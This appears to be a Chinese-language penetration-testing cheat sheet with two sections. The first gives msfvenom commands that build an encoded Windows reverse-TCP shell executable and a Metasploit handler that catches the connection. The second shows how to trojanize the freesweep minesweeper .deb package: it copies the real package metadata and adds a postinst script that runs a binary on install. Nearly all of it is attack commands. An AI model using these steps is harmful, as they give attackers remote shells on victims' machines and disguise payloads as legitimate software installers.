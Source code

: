 
### 二进制载荷

`msfvenom` 生成reverse shell

```shell
msfvenom --payload-options -p windows/shell/reverse_tcp

msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<local> LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe

msfconsole -q

msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/shell/reverse_tcp
set ......
exploit
```

### 二进制Linux木马

Example: 伪造一个deb包作为木马

本机：
```shell
wget http://old-releases.ubuntu.com/ubuntu/pool/universe/f/freesweep/freesweep_0.90-1_i386.deb

mkdir /tmp/evil
mv freesweep_0.90-1_i386.deb /tmp/evil
cd /tmp/evil

dpkg -x freesweep_0.90-1_i386.deb work
mkdir work/DEBIAN
```

创建两个文件：
`control`：
```
Package: freesweep
Version: 0.90-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
```

`postinst`：
```shell
#!/bin/sh

sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores
```
